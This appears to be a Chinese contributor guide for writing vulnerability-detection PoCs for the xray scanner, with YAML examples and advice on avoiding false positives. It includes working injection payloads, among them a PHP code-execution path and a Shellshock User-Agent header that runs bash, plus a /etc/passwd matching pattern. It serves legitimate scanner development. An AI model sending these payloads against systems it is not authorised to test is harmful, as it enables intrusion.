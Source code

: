 # 如何编写高质量的 poc

## 不要这么做

1. 无特殊情况不要在payload中出现你的用户名或者xray等字样，能随机的都随机。可以参考 poc 语法的文档。目前可能有以下例外需要注意下
 - updatexml 报错，如果参数是`md5(randvalue)` 报错页面的md5数据不一定完整，暂时可以使用固定值代替。
1. 不要直接使用如`reponse.status == 200`这样判断status code验证漏洞，一定存在误报。
1. 不要直接使用如`response.body.bcontains(b'upload success')`这样检测一个英文单词的方式来验证漏洞，一定存在误报。
1. 测试RCE类漏洞，请不要使用`echo`、`print`、`var_dump`之类的输出语句直接输出一个内容，然后在返回里查找这个内容，此类POC很容易误报和漏报，原因如下：
  - 如果对方页面本身是一个类似phpinfo的调试页面，会将你的数据包细节完全打印出来，那么并不能证明存在命令执行漏洞
  - 如果对方安装了xdebug等调试类扩展，`var_dump`等函数输出可能存在差异导致查找不成功
  
  以下就是一个例子，如果页面显示是 `/admin/?a=Factory();printf('{{r1}}');//../ 404 not found` 那就会误报。
  ```
  rules:
  - method: GET
    path: /admin/?a=Factory();printf('{{r1}}');//../
    follow_redirects: false
    expression: |
      response.status == 200 && response.body.bcontains(bytes(r1))
  ```
1.  测试RCE类漏洞，如PHP代码执行，请不要使用`system`、`shell_exec`、`phpinfo`等函数测试漏洞，容易出现误报和漏报，原因如下：
  - 如果对方本身就是一个phpinfo页面，无法判断是否是成功执行了代码，导致出现误报
  - 如果对方网站运行在一些虚拟主机环境下，如cpanel，则命令执行函数很可能已经被禁用，此时再用`system`等函数测试漏洞则会出现漏报
1. 测试命令执行、文件读取类漏洞，请考虑Linux和Windows下的情况，POC里不要执行类似`id`、`uname`、`/etc/passwd`等操作，否则可能不兼容Windows环境。通常这种情况，我们可以考虑编写两个POC，分别检测两个平台下的同一个漏洞
  - 匹配 `/etc/passwd` 文件的方法为 `r'root:[x*]:0:0:'.bmatches(body)`
1. 测试SQL注入漏洞，请不要使用`user()`、`version()`等函数来验证漏洞存在，此类规则太过宽泛。请使用如`select md5(随机数)`这样的方式来验证漏洞
1. Payload中尽量不要使用引号、反斜线（除非是必要的）等特殊字符，可能会受到目标`GPC_QUOTE`、WAF等影响。
  - 如果是Mysql，可以使用`0xxxx`的方式代替有引号的字符串
  - php的md5可以使用数字作为参数，会转换为字符串进行计算的。但是xray的md5需要手动转换为字符串，比如 `md5(string(10000))`
1. 漏洞如果能通过回显检测，就不要使用反连平台，鼓励将公开的无回显的POC改为有回显的。比如公开的struts2漏洞POC很多是反弹shell的POC，但几乎所有struts2的POC都可以修改为有回显的POC。

## 应该怎么做

1. 各种 rce 通常都可以直接使用整数相乘相加或者md5的方法，然后再查找返回结果，这样只有在代码真正被执行的时候才会得到预期的结果。
  - 如果是测试命令执行，目前推荐使用 `expr num1 + num2`，主要因为星号在 shell 中可能有潜在的转义问题，执行其他的命令可能返回值格式并不方便匹配。
  - 如果是 php 等代码执行，可以使用
     - print(数字 * 数字)
     - print(md5(随机值))
     - printf("随机值%%随机值") 实际输出会少一个百分号
  - sql 注入也可以使用 `union select md5(随机值)` 的原理
  - 考虑到有些32位系统整数上限可能低于`2^^31`和数字过短可能误报，目前要求乘法两个数字的取值范围必须在 `40000` 和 `44800` 之间，加法两个数字必须在 `800000000` 和 `1000000000` 之间。
  
  ```
  set:
    r1: randomInt(40000, 44800)
    r2: randomInt(40000, 44800)
  
  set:
    r1: randomInt(800000000, 1000000000)
    r2: randomInt(800000000, 1000000000)
  ```
1. 自定义变量名做部分约定。简单来讲，反连平台都使用 reverse 作为变量名，其他变量名使用驼峰式命名：
  - `reverse: newReverse`
  - `reverseURL: reverse.url`
  - `reverseDomain: reverse.domain`
  - `reverseIP: reverse.ip`

1. 关于POC的编写其他的注意点，推荐参考这篇文章：<https://paper.seebug.org/9/>

说了这么多，有个例子会更清晰些，如果要提交 bash cve-2014-6271 漏洞（shell shock） poc，那么 `bash-cve-2014-6271.yml` 文件的内容为

```yaml
name: poc-yaml-bash-cve-2014-6271
set:
  r1: randomInt(800000000, 1000000000)
  r2: randomInt(800000000, 1000000000)
rules:
  - method: GET
    headers:
      User-Agent: "() { :; }; echo; echo; /bin/bash -c 'expr {{r1}} + {{r2}}'"
    expression: response.body.bcontains(bytes(string(r1+r2)))
detail:
  author: example(https://github.com/example)
  links:
    - https://github.com/opsxcq/exploit-CVE-2014-6271
```


